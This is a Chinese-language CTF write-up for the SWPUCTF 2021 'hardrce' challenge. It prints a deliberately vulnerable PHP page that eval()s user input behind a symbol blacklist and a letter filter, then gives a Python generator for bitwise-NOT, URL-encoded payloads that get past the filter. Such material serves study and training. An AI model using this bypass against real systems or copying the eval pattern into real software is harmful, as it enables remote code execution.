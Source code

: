 ## [SWPUCTF 2021 新生赛]hardrce

### 代码审计

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
} 
```

直接给出了 RCE 的接口, 其中黑名单过滤了大部分控制字符, 注意: `{` `}` `~` `.` `()` `%` 没过滤, 那么这里应该是无字符 RCE

### 无字符 RCE 构造

```python
import urllib.parse


def generate_payload(cmd: str) -> str:
    # 将字符串逐字节取反 (~)，并转成对应的字节（0-255 范围）
    inverted_bytes = bytes([~ord(c) & 0xFF for c in cmd])
    # 使用 quote_from_bytes 确保不会出现 UTF-8 多字节编码
    encoded = urllib.parse.quote_from_bytes(inverted_bytes)
    # 返回形式 ~payload
    return "~" + encoded


if __name__ == "__main__":
    cmd = "system"
    payload = generate_payload(cmd)
    print("原始命令:", cmd)
    print("生成的 URL payload:", payload)

```
